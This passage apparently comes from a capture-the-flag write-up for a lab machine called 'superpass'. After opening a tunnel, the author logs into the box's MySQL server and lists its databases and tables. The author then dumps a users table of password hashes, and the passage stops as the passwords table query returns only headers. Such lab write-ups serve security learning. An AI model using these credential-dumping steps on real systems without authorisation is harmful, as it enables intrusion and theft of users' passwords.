 With the tunnel opened, I was able to use the MySQL client on my machine to connect to the MySQL server on the box.

```sql
mysql -usuperpassuser -h 127.0.0.1 -p
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 1587
Server version: 8.0.32-0ubuntu0.22.04.2 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> Show Databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| performance_schema |
| superpass          |
+--------------------+
3 rows in set (0.030 sec)

MySQL [(none)]> use superpass;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [superpass]> show Tables;
+---------------------+
| Tables_in_superpass |
+---------------------+
| passwords           |
| users               |
+---------------------+
2 rows in set (0.030 sec)

MySQL [superpass]> Select * From users;
+----+----------+--------------------------------------------------------------------------------------------------------------------------+
| id | username | hashed_password                                                                                                          |
+----+----------+--------------------------------------------------------------------------------------------------------------------------+
|  1 | 0xdf     | $6$rounds=200000$FRtvqJFfrU7DSyT7$8eGzz8Yk7vTVKudEiFBCL1T7O4bXl0.yJlzN0jp.q0choSIBfMqvxVIjdjzStZUYg6mSRB2Vep0qELyyr0fqF. |
|  2 | corum    | $6$rounds=200000$yRvGjY1MIzQelmMX$9273p66QtJQb9afrbAzugxVFaBhb9lyhp62cirpxJEOfmIlCy/LILzFxsyWj/mZwubzWylr3iaQ13e4zmfFfB1 |
|  9 | test     | $6$rounds=200000$qtpXF3.PgPs00aap$00/amN.zFZsYv0UMyiq6bnq67oVTpL..gs0Ec3EYzUgqsanb0AMARM3nDaS68Z8BEzQKQshjvB2WCEmbNMAHM1 |
| 10 | 2        | $6$rounds=200000$PPdQzGEsBknhgI77$hBKpjOlgS08Q3SX6VUsF.8tIjwm.AcVhzhWxZotZ2WxI3m/x2IB0I/l3u94OeWK3PKSbI242.u9rj4Sj7nGUy0 |
+----+----------+--------------------------------------------------------------------------------------------------------------------------+
4 rows in set (0.026 sec)

MySQL [superpass]> Select * From passwords;
+----+---------------------+---------------------+----------------+----------+----------------------+---------+
| id | created_date        | last_updated_data   | url            | username | password             | user_id |
+----+---------------------+---------------------+----------------+----------+----------------------+---------+
```